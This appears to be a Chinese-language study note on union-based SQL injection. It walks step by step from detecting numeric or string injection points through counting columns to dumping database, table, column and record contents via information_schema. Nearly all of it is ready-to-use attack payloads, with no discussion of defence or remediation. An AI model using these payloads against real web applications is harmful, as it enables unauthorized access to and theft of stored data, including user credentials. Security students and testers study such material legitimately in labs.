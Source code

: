```yaml
---
tags:
  - 技巧
  - sql注入
---
```

### 判断类型

数字型：

```sql
1 and 1=1 //查出数据
1 and 1=2 //查不出数据
```

字符型：
```sql
1' and '1' = '1 //查出数据
1' and '1' = '2 //查不出数据
```


### 判断列数

```sql
[前面加上判断类型时的语句]order by [后面使用1，2，3...去尝试]#
```

### 判断能注入的字段

那个位置有回显就说明这个字段可以注入
```sql
?id=-1 union select 1,2,3...[有几列写几个]# 
```

**爆库**
```sql
?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata
```

**爆表**
```sql
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='已知库名'
```

**爆列**
```sql
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='已知表名'
```

**获取数据**
```sql
?id=-1 union select 1,2,group_concat(已知字段名,':',已知字段名) from 已知表名
```


